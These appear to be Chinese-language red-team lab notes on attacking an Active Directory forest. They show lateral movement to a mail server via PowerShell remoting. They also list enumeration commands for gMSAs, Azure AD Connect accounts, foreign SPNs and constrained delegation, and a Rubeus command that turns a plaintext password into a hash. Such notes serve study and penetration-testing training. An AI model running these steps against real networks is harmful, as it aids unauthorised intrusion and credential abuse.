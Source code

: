 横向到us-mailmgmt
```
PS C:\ad\Tools> Enter-PSSession $mailmgmt
[us-mailmgmt]: PS C:\Users\Administrator\Documents> whoami
us-mailmgmt\administrator
[us-mailmgmt]: PS C:\Users\Administrator\Documents> hostname
US-MailMgmt
```

# 枚举gmsA

- 什么是gMSAs？
> 组托管服务帐户（Group Managed Service Accounts，即gMSAs）,组托管服务帐户是针对多个服务器的 MSA。 Windows 为在一组服务器上运行的服务管理服务帐户。

AD
```
 Get-ADServiceAccount -Filter *
```

# 枚举Azure AD机器
我们可以通过查看名称以 MSOL_ 开头的特殊帐户的描述来找到安装 Azure AD Connect 的机器

AD
```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl
```

# 枚举外域SPN

AD
```
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
```

# 枚举外域约束委派机器

AD
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local
```

# 根据明文密码转成哈希
```
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:storagesvc /domain:eu.local
```

# 枚举FSPs
